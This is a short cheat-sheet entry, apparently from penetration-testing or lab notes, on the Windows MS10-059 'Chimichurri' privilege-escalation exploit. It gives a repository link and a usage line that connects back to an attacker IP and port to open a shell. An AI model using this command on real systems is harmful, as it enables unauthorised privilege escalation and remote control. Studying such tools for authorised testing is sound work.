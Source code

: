 # Windows exploits


## MS10-059 (Privilege escalation)
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri

```
Usage: 
Chimichurri.exe <Kali Ip address>  <Portnumber>
Chimichurri.exe 10.10.14.19 5555
```
